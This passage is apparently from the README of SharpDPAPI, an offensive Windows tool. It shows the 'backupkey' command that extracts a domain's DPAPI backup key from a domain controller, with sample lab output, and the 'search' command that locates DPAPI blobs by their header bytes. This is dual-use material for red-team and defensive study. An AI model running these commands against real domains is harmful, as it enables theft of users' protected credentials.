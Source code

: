 By default, SharpDPAPI will try to determine the current domain controller via the **DsGetDcName** API call. A server can be specified with `/server:COMPUTER.domain.com`. If you want the key saved to disk instead of output as a base64 blob, use `/file:key.pvk`.

Retrieve the DPAPI backup key for the current domain controller:

    C:\Temp>SharpDPAPI.exe backupkey

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Retrieve domain DPAPI backup key


    [*] Using current domain controller  : PRIMARY.testlab.local
    [*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Key :
              HvG1sAAAAAABAAAAAAAAAAAAAACUBAAABwIAAACkAABSU0EyAAgAAA...(snip)...


Retrieve the DPAPI backup key for the specified DC, outputting the backup key to a file:

    C:\Temp>SharpDPAPI.exe backupkey /server:primary.testlab.local /file:key.pvk

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Retrieve domain DPAPI backup key


    [*] Using server                     : primary.testlab.local
    [*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Backup key written to            : key.pvk


#### search
The **search** comand will search for potential DPAPI blobs in the registry, files, folders, and base64 blobs. Usage:
```
SharpDPAPI.exe search /type:registry [/path:HKLM\path\to\key] [/showErrors]
SharpDPAPI.exe search /type:folder /path:C:\path\to\folder [/maxBytes:<numOfBytes>] [/showErrors]
SharpDPAPI.exe search /type:file /path:C:\path\to\file [/maxBytes:<numOfBytes>]
SharpDPAPI.exe search /type:base64 [/base:<base64 string>]
```
The `search` command works by searching for the following bytes, which represent the header (Version + DPAPI provider GUID) of DPAPI blob structure:

```
0x01, 0x00, 0x00, 0x00, 0xD0, 0x8C, 0x9D, 0xDF, 0x01, 0x15, 0xD1, 0x11, 0x8C, 0x7A, 0x00, 0xC0, 0x4F, 0xC2, 0x97, 0xEB
```
